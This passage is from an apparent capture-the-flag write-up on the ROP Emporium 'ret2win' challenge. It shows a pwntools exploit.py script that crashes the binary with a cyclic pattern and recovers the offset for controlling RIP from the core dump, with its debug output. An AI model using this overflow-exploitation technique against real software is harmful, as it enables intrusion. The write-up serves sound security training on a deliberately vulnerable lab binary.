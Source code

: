 ## Find the Crashing Offset

Ok, let's crash the app so we can find the offset in the stack buffer overflow where we can take control of the RIP register.
We can find the offset by generating [sequential chunks of De Brujin sequences](https://docs.pwntools.com/en/stable/util/cyclic.html) with pwntools' `cyclic()` function.
When the application crashes, the RSP (Stack Pointer) register will return to an offset within our sequence which we can lookup. When the program returns, the RIP register (Instruction Pointer Register) will be set to this value, relinquishing it's execution flow to us.

Once the app crashes, we lookup the value of the RSP register from the core dump and lookup the value with pwntools' `cyclic_find()` function. That will give us the offset from where we can take control of the RIP regsiter:

### exploit.py

```python
from pwn import *

# Set the pwntools context
context.arch = 'amd64'
context.log_level = 'debug'

# Project constants
PROCESS = './ret2win'

# Start the process
io = process(PROCESS)

# Send a cyclic pattern
io.sendline(cyclic(128))

# Wait for the process to crash
io.wait()

# Read the core file
core = io.corefile

# Read the stack pointer at the time of the crash
stack = core.rsp
info("stack: %#x", stack)

# Find the offset for where the binary crashed
pattern = core.read(stack, 4)
offset = cyclic_find(pattern)
info("pattern: %r", pattern)
info("crash offset: %r", offset)
```

```
$ python3 exploit.py
[+] Starting local process './ret2win' argv=[b'./ret2win'] : pid 3849
[DEBUG] Sent 0x81 bytes:
    b'aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaab\n'
[*] Process './ret2win' stopped with exit code -11 (SIGSEGV) (pid 3849)
[DEBUG] core_pattern: b'core'
[DEBUG] core_uses_pid: False
[DEBUG] interpreter: ''
[DEBUG] Looking for QEMU corefile
[DEBUG] Trying corefile_path: '/home/kali/ctf/rop-emporium/ret2win/x64/qemu_ret2win_*_3849.core'
[DEBUG] Looking for native corefile
[DEBUG] Checking for corefile (pattern)
[DEBUG] Trying corefile_path: '/home/kali/ctf/rop-emporium/ret2win/x64/core'
[+] Parsing corefile...: Done
```